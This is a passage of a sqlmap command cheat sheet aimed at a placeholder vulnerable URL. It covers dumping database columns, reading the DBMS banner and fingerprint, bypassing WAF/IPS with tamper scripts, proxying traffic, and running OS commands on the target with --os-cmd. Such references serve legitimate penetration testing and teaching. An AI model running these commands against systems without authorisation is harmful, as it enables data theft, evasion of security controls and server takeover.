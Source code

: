 #### **6. Data Extraction**
- **Description:** Extract data from a specific column.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" -D database_name -T table_name -C column_name --dump
  ```
- **Explanation:**
  - `-C` specifies the target column.
  - `--dump` extracts the data from the specified column.

#### **7. Identify Database Version**
- **Description:** Retrieve the database management system (DBMS) version.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --banner
  ```
- **Explanation:**
  - `--banner` retrieves the DBMS version and banner information.

#### **8. Bypass WAF/IPS**
- **Description:** Use tamper scripts to bypass Web Application Firewalls (WAF) or Intrusion Prevention Systems (IPS).
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper="space2comment"
  ```
- **Explanation:**
  - `--tamper` applies a tamper script to modify the payloads and bypass security mechanisms.

#### **9. Use a Proxy**
- **Description:** Route SQLmap traffic through a proxy.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --proxy="http://127.0.0.1:8080"
  ```
- **Explanation:**
  - `--proxy` sets the proxy server for SQLmap requests.

#### **10. Identify DBMS**
- **Description:** Automatically identify the back-end DBMS.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --fingerprint
  ```
- **Explanation:**
  - `--fingerprint` attempts to identify the back-end database management system automatically.

#### **11. Run OS Commands**
- **Description:** Execute arbitrary commands on the target operating system.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --os-cmd="whoami"
  ```
- **Explanation:**
  - `--os-cmd` runs a specified operating system command on the target server.
